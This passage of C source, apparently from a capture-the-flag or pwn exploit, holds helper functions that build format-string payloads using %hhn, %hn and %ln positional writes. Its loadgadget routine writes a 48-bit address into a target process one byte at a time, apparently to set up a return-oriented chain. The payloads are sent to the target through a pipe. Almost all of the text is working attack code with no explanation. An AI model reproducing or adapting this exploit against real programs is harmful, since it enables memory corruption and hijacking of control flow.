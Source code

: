 ```c
    do_send(buf);
    free(buf);
}
void do_send(char *buf){
    printf("[+] Sent %d bytes.\n",write(fd_send[1],buf,0x40));
    //It should be okay cuz the other end would only read 0x40
}
void set_target(int idx, int off){
    int val = off + 8*idx + target+8 - reuse;
    char *buf = malloc(0x40);
    memset(buf,0,0x40);
    if(((val+reuse)>>8)==(pre>>8))
        snprintf(buf,0x40,"%%%dp%%43$hhn%%%dp%%30$hhn\n",reuse,(val&0xff));
    else
        snprintf(buf,0x40,"%%%dp%%43$hhn%%%dp%%30$hn\n",reuse,val);
    do_send(buf);
    // read(fd_recv[0],trash,0x10000);
    pre = val+reuse;
}
void set_val(int val,int off){
    char *buf = malloc(0x40);
    memset(buf,0,0x40);
    val = val - reuse;
    if(val<0)
        val+= 0x100;
    if(off==0)
        snprintf(buf,0x40,"%%%dp%%43$hhn%%%dp%%45$ln\n",reuse,val);
    else
        snprintf(buf,0x40,"%%%dp%%43$hhn%%%dp%%45$hhn\n",reuse,val);
    do_send(buf);
    // read(fd_recv[0],trash,0x10000);
}
void loadgadget(int idx,size_t val){
    int vals[6] = {0};
    vals[0] = val & 0xff;
    vals[1] = (val>>8)&0xff;
    vals[2] = (val>>16)&0xff;
    vals[3] = (val>>24)&0xff;
    vals[4] = (val>>32)&0xff;
    vals[5] = (val>>40)&0xff;
    
    for(int i =0 ; i<6;i++){
        if(vals[i]!=0){
            set_target(idx,i);
            set_val(vals[i],i);
        }else{
            if(i==0){
                set_target(idx,i);
                set_val(vals[i],i);
            }
        }
    }
}
void init_target(){
    int val =  target + 8 - reuse;
    char *buf = malloc(0x40);
    memset(buf,0,0x40);
    snprintf(buf,0x40,"%%%dx%%43$hhn%%%dx%%30$hn\n",reuse,val);
    do_send(buf);
    puts("Test if we can init the target");
    read(fd_recv[0],trash,0x2000);
    pre = val+reuse;
}
```